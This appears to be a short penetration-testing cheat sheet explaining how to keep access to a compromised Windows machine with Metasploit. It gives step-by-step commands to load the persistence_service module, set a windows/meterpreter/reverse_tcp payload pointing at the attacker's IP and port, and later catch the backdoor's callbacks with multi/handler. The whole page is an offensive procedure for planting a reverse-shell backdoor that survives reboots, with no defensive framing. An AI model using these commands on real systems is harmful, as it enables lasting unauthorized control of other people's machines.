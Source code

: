 Persistence is a key post-exploitation step that allows an attacker to maintain access to a compromised system even after it has been rebooted or the initial session has been closed.

## Metasploit

1. Gain a Meterpreter session on the target machine 
2. Load the `persistence_service` module
```bash
use exploit/windows/local/persistence_service
```

3. Set Required Options

- `SESSION`: The session ID of the active Meterpreter session.
- `PAYLOAD`: The payload you want to execute persistently (e.g., `windows/meterpreter/reverse_tcp`).
- `LHOST`: The attacker's IP address to receive the connection.
- `LPORT`: The port on which the listener will be running.

4. Run the module

#### Recovering Access After Using the Persistence Module
After deploying the persistence module in Metasploit, if the session ends unexpectedly (due to reboot or network loss), you can regain access using the `multi/handler` module. The backdoor created by the module ensures that the payload will reconnect to the attacker's machine whenever executed on the target.
```bash
use multi/handler
set payload <payload_type>       
set LHOST <attacker_ip>         
set LPORT <listening_port>       
exploit
```